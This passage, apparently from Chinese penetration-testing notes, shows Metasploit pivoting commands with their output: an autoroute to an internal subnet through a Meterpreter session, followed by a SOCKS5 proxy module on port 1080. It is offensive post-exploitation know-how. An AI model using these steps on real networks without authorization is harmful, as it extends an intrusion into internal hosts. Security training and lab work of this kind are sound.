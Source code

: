 



​		2.添加目标网段进路由中,同时查看是否成功

```shell
run autoroute -s 192.168.96.0 -n 255.255.255.0
run autoroute -p
```

<img src="images/image-20201119170151816.png" alt="image-20201119170151816" style="zoom:50%;" />





​		3.路由绑定后，使用msf的代理模块socks4或者socks5都可以，这里我使用socks5（因为socks4不行😕）。开启后可以查看一下端口是否正常开启代理



```shell
meterpreter > background  #meterpreter放后台
[*] Backgrounding session 1...   #恢复使用 sessions 1

msf5 exploit(multi/handler) > use auxiliary/server/socks5 

msf5 auxiliary(server/socks5) > set srvhost 192.168.96.130
srvhost => 192.168.96.130

msf5 auxiliary(server/socks5) > run
[*] Auxiliary module running as background job 0.

#查看是否启动
msf5 auxiliary(server/socks5) > netstat -antp | grep 1080
[*] exec: netstat -antp | grep 1080

tcp        0      0 127.0.0.1:1080          0.0.0.0:*               LISTEN      22886/ruby          
```
